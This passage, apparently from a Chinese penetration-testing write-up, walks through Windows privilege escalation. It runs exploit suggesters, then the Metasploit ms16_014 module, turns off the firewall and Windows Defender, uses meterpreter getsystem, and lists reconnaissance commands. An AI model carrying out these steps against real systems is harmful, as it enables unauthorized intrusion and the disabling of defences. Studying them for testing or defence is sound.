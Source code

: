 ```
./windows-exploit-suggester.py --database 2021-03-21-mssb.xls --systeminfo 123.txt
```



这里也可以使用`post/multi/recon/local_exploit_suggester`模块

```
use post/multi/recon/local_exploit_suggester
set SESSION 填入对应的session号
```

![image-20210323142550083](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210323142550083.png)



### 漏洞利用提权

这里挺多漏洞可以利用的，我们找到最需要的`ms16-014`提权漏洞，我们查找一下

```
search ms16-014
```

利用模块提权

```
use exploit/windows/local/ms16_014_wmi_recv_notif
set SESSION 3
run
```

失败后我们尝试关闭防火墙和 `windefend`

```
netsh advfirewall set allprofiles state off
net stop windefend
```

然后使用`ms16-014`的`exp`打一下没有建立会话

**最后，发现我们拿到`meterpreter`后直接`getsystem`就能拿到系统权限**

```
getsystem
```

![image-20210323143319035](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210323143319035.png)





## 信息收集

我们先进行基本信息的收集：在提权成功的情况下，以system的身份来运行下列命令，大部分都有回显，不会报错；

| 命令                                             | 作用                                                         |
| ------------------------------------------------ | ------------------------------------------------------------ |
| **ipconfig /all**                                | **查看本机ip，所在域**                                       |
| **route print**                                  | **打印路由信息**                                             |
| **net view**                                     | **查看局域网内其他主机名**                                   |
| **arp -a**                                       | **查看arp缓存**                                              |
| **net start**                                    | **查看开启了哪些服务**                                       |
| **net share**                                    | **查看开启了哪些共享**                                       |
| net share ipc$                                   | 开启ipc共享                                                  |
| net share c$                                     | 开启c盘共享                                                  |